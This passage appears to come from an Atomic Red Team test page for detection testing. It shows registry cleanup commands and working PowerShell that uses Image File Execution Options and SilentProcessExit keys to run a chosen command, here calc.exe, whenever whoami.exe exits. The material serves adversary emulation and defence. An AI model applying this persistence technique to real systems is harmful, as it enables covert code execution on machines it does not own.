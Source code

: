 #### Cleanup Commands:

```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #3 - GlobalFlags in Image File Execution Options

The following Atomic Test will create a GlobalFlag key under Image File Execution Options, also a SilentProcessExit Key with ReportingMode and MonitorProcess values. This test is similar to a recent CanaryToken that will generate an EventCode 3000 in the Application log when a command, whoami.exe for example, is executed.
Upon running Whoami.exe, a command shell will spawn and start calc.exe based on the MonitorProcess value.
Upon successful execution, powershell will modify the registry and spawn calc.exe. An event 3000 will generate in the Application log.

**Supported Platforms:** Windows

**auto_generated_guid:** 13117939-c9b2-4a43-999e-0a543df92f0d

#### Inputs:

| Name       | Description        | Type   | Default Value       |
| ---------- | ------------------ | ------ | ------------------- |
| process    | Process to monitor | string | whoami.exe          |
| cmd_to_run | Command to execute | string | cmd.exe /c calc.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$Name = "GlobalFlag"
$Value = "512"
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $Name -Value $Value -PropertyType DWord -Force
$Name = "ReportingMode"
$Value = "1"
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}"
New-Item -Path $SilentProcessExit -Force
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType DWord -Force

$Name = "MonitorProcess"
$Value = "#{cmd_to_run}"
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType String -Force
Start-Process whoami.exe
```
